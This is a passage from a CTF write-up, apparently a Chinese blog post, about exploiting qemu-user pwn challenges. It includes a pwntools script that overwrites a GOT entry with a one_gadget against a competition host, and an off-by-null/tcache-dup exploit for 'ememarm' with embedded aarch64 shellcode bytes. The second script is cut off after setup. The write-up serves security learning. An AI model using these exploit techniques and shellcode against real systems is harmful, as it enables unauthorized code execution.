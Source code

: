 
另外可以提前利用任意地址写free_got->printf_plt 完成泄露libc，由于qemu-user在固定环境下基址全是固定的，所以泄露的基址下次可以再用。泄露方法具体参考我媳妇博客：[HWS2021冬令营选拔赛](https://blingblingxuanxuan.github.io/hws2021winter.html)，故泄露后写GOT表到one_gadget即可：

```python
from pwn import *
context(log_level='debug')

libc_addr  = 0x4000830000
fread_got  = 0x412060
one_gadget = 0x63e80

while 1:
    try:
        io = remote("183.129.189.60",10012)
        io.sendlineafter(":","a")
        io.recv()
        io.send(str(fread_got))
        io.sendlineafter("success",p64(libc_addr + one_gadget))
        io.sendlineafter("bye",'0')
        io.interactive()
    except EOFError:
        io.close()
        continue
```

### ememarm

> aarch64:libc2.27，qemu运行，默认没有NX，所以可以写shellcode

- 漏洞：在修改堆块内容功能处，存在off-by-null，导致堆块指针最低位可以被置零
- 利用：用空字节溢出两个除最低位地址相同的堆块指针，然后即可造成对于该地址处堆块的double free，故构造tachedup实现任意任意地址写，可以采取先leak然后写one_gadget的策略

不过觉得自己在比赛中的解法也很精彩，即偷懒也巧妙：

- 偷懒在于：由于qemu没有NX，则shellcode一定可以搞定（比赛时没搞定leak libc）
- 巧妙在于：可用的tache链不够，每次任意地址写的数据也只有16字节，但在第一次tachedup时的第二次malloc可以修改程序中链表的next指针导致索引到伪堆块，从而利用edit功能继续任意地址写，这里可以写24个字节，网上找到的aarch64的[shellcode](https://www.exploit-db.com/shellcodes/47048)最短正好40个字节，故第二次tachedup劫持控制流到shellcode即可

```python
from pwn import *
context(log_level='debug')
io = process(['qemu-aarch64','-L','./','./ememarm'])
#io = process(['qemu-aarch64','-g','1234','-L','./','./ememarm'])
#io = remote("183.129.189.60",10034)
sla     = lambda delim,data         :  io.sendlineafter(delim,data)
sa      = lambda delim,data         :  io.sendafter(delim,data)
init    = lambda name               :  (sla("4268144",name))
add     = lambda data1,data2,yes    :  (sla(":","1"),sa("cx:",data1),sa("cy:",data2),sla("?",str(yes)))
add2    = lambda data1,data2,yes    :  (sla(":","4"),sa("cx:",data1),sa("cy:",data2),sla("?",str(yes)))
edit    = lambda idx  ,data         :  (sla(":","3\n"+str(idx)+"\n"+data))

# shelcode from https://www.exploit-db.com/shellcodes/47048

sc1 = "\xe1\x45\x8c\xd2\x21\xcd\xad\xf2"
sc2 = "\xe1\x65\xce\xf2\x01\x0d\xe0\xf2"
sc3 = "\xe1\x8f\x1f\xf8\xe1\x03\x1f\xaa"
sc4 = "\xe2\x03\x1f\xaa\xe0\x63\x21\x8b"
sc5 = "\xa8\x1b\x80\xd2\xe1\x66\x02\xd4"

init('xuan')


```